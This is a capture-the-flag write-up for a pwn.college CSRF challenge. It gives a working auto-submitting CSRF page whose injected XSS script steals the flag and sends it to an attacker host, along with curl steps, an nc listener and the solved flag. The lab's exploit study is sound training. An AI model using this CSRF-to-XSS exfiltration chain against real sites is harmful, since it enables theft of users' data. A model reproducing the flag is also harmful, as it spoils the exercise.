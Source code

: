# CSRF-3 — Writeup

## 🧠 Challenge Overview

In this challenge, we are given a Flask application using a temporary SQLite database. The goal is to exploit a **Cross-Site Request Forgery (CSRF)** vulnerability that tricks the victim (admin bot) into submitting a form containing malicious JavaScript. This script is then executed by the admin’s browser, allowing us to exfiltrate sensitive data (e.g., the flag).

## 📜 Server Behavior

The server has the following key endpoints:

- `/login`: logs in a user and sets a session cookie.
- `/draft`: allows creating a post, with optional `publish=on`.
- `/publish`: renders the published post with JavaScript enabled.
- `/victim`: simulates the admin visiting the page.
- `/`: homepage, includes the flag in source.

## 🎯 Objective

Make the admin visit a malicious page that submits a CSRF form to `/draft` with a payload that publishes a post containing XSS JavaScript. This JavaScript grabs the flag from `/` and sends it to our server.

---

## 💣 Attack Strategy

1. Host a malicious HTML page.
2. The page auto-submits a CSRF form to `/draft` with `content` containing a `<script>` tag.
3. The script:
   - Fetches the homepage (`/`)
   - Extracts the flag using regex
   - Sends the flag to our server via query string

---

## 🛠️ Attack HTML (Payload)

Save this as `index.html`:

```html
<html>
  <body>
    <form id="csrf" action="http://challenge.localhost:80/draft" method="POST">
      <input type="hidden" name="content" value='<script>
        fetch("/") 
          .then(r => r.text())
          .then(t => {
            let flag = t.match(/pwn\.college\{.*?\}/);
            if (flag) {
              fetch("http://hacker.localhost:1338/?" + btoa(flag[0]));
            }
          });
      </script>'>
      <input type="hidden" name="publish" value="on">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
### Hosting the Payload
Host the file on port 1337:
```
python3 -m http.server 1337
```
### Get Session Cookie (as hacker)
```bash
curl -i -s -X POST http://challenge.localhost/login \
  -d "username=hacker&password=1337" \
  -c cookie.txt
```
Extract the session cookie from response headers:
```
Set-Cookie: session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.<sig>
```

### Post the Payload
Submit the draft using the session cookie:
```bash
curl -X POST http://challenge.localhost/draft \
  -b "session=<your_cookie>" \
  -d "content=<script>...flag steal script...</script>&publish=on"
```

### Trigger the Admin Visit
Simulate the admin visiting the attacker's page:
```
curl http://challenge.localhost/victim
```
This will load your http://hacker.localhost:1337/ page, triggering the auto-submit CSRF.


### Catch the Flag
Run a listener to capture exfiltrated data:
```
nc -lvnp 1338
```
You will see:
```
GET /?cHduLmNvbGxlZ2V7WmZZYnpFT0pOeFlYdEt6dEpBTXdFS1RkeVZTSHZMRW1Oek5MeU93MHpNdXJqTzBZMHl9 HTTP/1.1
```
Decode the base64:
```bash
echo 'cHduLmNvbGxlZ2V7WmZZYnpFT0pOeFlYdEt6dEpBTXdFS1RkeVZTSHZMRW1Oek5MeU93MHpNdXJqTzBZMHl9' | base64 -d
```
Output:
```bash
pwn.college{ZfYbzEOJNyXYtKztJAMwEKTdyVSHvLEmNzNLyOw0zMurjO0Y0y}
```
---
##  Final Flag
```
pwn.college{ZfYbzEOJNyXYtKztJAMwEKTdyVSHvLEmNzNLyOw0zMurjO0Y0y}
```
---


